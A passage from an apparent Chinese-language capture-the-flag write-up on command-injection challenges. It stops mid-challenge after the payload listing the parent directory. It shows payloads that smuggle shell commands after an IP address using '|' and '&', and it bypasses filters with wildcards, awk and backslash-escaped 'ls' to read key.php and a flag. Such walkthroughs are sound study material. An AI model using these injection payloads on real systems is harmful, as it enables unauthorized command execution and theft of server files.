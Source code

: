 发现 `key.php`

![image.png](https://img.ghostliner.top/hvY3ma.png)

```shell
127.0.0.1|tac ../key.php
```

查看文件失败

![image.png](https://img.ghostliner.top/Cq8hhb.png)

```shell
127.0.0.1| tac ../ke?.ph?
```

发现非文件名过滤，
使用命令：cat tac more less head tail 失败

使用 awk 命令

```shell
127.0.0.1|awk "{print}" ../key.php
```

成功，获取到 key

![image.png](https://img.ghostliner.top/0egEUL.png)

查看 `/tmp`，获取到 flag

![image.png](https://img.ghostliner.top/WHXgMS.png)

## 13. 命令执行（三）

![image.png](https://img.ghostliner.top/88el2N.png)

```shell
127.0.0.1|ls # 报错
127.0.0.1| # 报错
```

`|` 被过滤，尝试 `;` `&`，发现 `&` 未过滤

```shell
# ls被过滤
127.0.0.1&\l\s
```

执行成功

![image.png](https://img.ghostliner.top/NCUTPo.png)

```shell
127.0.0.1&\l\s ../
```

发现 key.php 文件
